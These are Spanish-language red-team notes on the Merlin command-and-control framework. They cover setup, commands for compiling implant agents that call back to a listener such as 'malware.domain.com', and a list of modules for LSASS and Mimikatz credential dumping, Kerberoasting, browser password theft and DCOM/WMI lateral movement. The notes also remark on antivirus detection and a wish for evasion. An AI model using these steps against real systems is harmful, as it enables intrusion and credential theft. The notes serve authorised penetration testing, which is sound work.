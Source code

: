 # Instalación

## Instalar GO
```
#Download GO package from: https://golang.org/dl/
#Decompress the packe using:
tar -C /usr/local -xzf go$VERSION.$OS-$ARCH.tar.gz

#Change /etc/profile
Add ":/usr/local/go/bin" to PATH
Add "export GOPATH=$HOME/go"
Add "export GOBIN=$GOPATH/bin"

source /etc/profile
```
## Instalar Merlin
```
go get https://github.com/Ne0nd0g/merlin/tree/dev #It is recommended to use the developer branch
cd $GOPATH/src/github.com/Ne0nd0g/merlin/
```
# Iniciar el Servidor Merlin
```
go run cmd/merlinserver/main.go -i
```
# Agentes de Merlin

Puedes [descargar agentes precompilados](https://github.com/Ne0nd0g/merlin/releases)

## Compilar Agentes

Ve a la carpeta principal _$GOPATH/src/github.com/Ne0nd0g/merlin/_
```
#User URL param to set the listener URL
make #Server and Agents of all
make windows #Server and Agents for Windows
make windows-agent URL=https://malware.domain.com:443/ #Agent for windows (arm, dll, linux, darwin, javascript, mips)
```
## **Compilación manual de agentes**
```
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://10.2.0.5:443" -o agent.exe main.g
```
# Módulos

**La mala noticia es que cada módulo utilizado por Merlin se descarga de la fuente (Github) y se guarda en el disco antes de usarlo. Ten cuidado al usar módulos conocidos porque Windows Defender te detectará.**

**SafetyKatz** --> Mimikatz modificado. Volcado de LSASS a archivo y lanzamiento: sekurlsa::logonpasswords a ese archivo\
**SharpDump** --> minivolcado para el ID de proceso especificado (LSASS por defecto) (Se dice que la extensión del archivo final es .gz pero en realidad es .bin, pero es un archivo .gz)\
**SharpRoast** --> Kerberoast (no funciona)\
**SeatBelt** --> Pruebas de seguridad local en CS (no funciona) https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs\
**Compiler-CSharp** --> Compilar usando csc.exe /unsafe\
**Sharp-Up** --> Todas las comprobaciones en C# en powerup (funciona)\
**Inveigh** --> Suplantador de PowerShellADIDNS/LLMNR/mDNS/NBNS y herramienta de hombre en el medio (no funciona, necesita cargar: https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1)\
**Invoke-InternalMonologue** --> Suplanta a todos los usuarios disponibles y recupera una respuesta de desafío para cada uno (hash NTLM para cada usuario) (URL incorrecta)\
**Invoke-PowerThIEf** --> Roba formularios de IExplorer o lo hace ejecutar JS o inyecta una DLL en ese proceso (no funciona) (y el PS parece que tampoco funciona) https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1\
**LaZagneForensic** --> Obtener contraseñas del navegador (funciona pero no imprime el directorio de salida)\
**dumpCredStore** --> API del Administrador de credenciales de Win32 (https://github.com/zetlen/clortho/blob/master/CredMan.ps1) https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details\
**Get-InjectedThread** --> Detecta la inyección clásica en los procesos en ejecución (Inyección clásica (OpenProcess, VirtualAllocEx, WriteProcessMemory, CreateRemoteThread)) (no funciona)\
**Get-OSTokenInformation** --> Obtener información del token de los procesos y hilos en ejecución (Usuario, grupos, privilegios, propietario... https://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-\_token_information_class)\
**Invoke-DCOM** --> Ejecuta un comando (en otro equipo) a través de DCOM (http://www.enigma0x3.net.) (https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)\
**Invoke-DCOMPowerPointPivot** --> Ejecuta un comando en otro PC abusando de los objetos COM de PowerPoint (ADDin)\
**Invoke-ExcelMacroPivot** --> Ejecuta un comando en otro PC abusando de DCOM en Excel\
**Find-ComputersWithRemoteAccessPolicies** --> (no funciona) (https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/)\
**Grouper** --> Hace una volcado de todas las partes más interesantes de la directiva de grupo y luego busca en ellas cosas explotables. (obsoleto) Echa un vistazo a Grouper2, parece muy bueno\
**Invoke-WMILM** --> WMI para moverse lateralmente\
**Get-GPPPassword** --> Busca groups.xml, scheduledtasks.xml, services.xml y datasources.xml y devuelve contraseñas en texto plano (dentro del dominio)\
**Invoke-Mimikatz** --> Usa mimikatz (credenciales por defecto)\
**PowerUp** --> https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc\
**Find-BadPrivilege** --> Comprueba los privilegios de los usuarios en los equipos\
**Find-PotentiallyCrackableAccounts** --> Recupera información sobre las cuentas de usuario asociadas con SPN (Kerberoasting)\
**psgetsystem** --> getsystem

**No se comprobaron los módulos de persistencia**

# Resumen

Realmente me gusta la sensación y el potencial de la herramienta.\
Espero que la herramienta comience a descargar los módulos desde el servidor e integre algún tipo de evasión al descargar scripts.
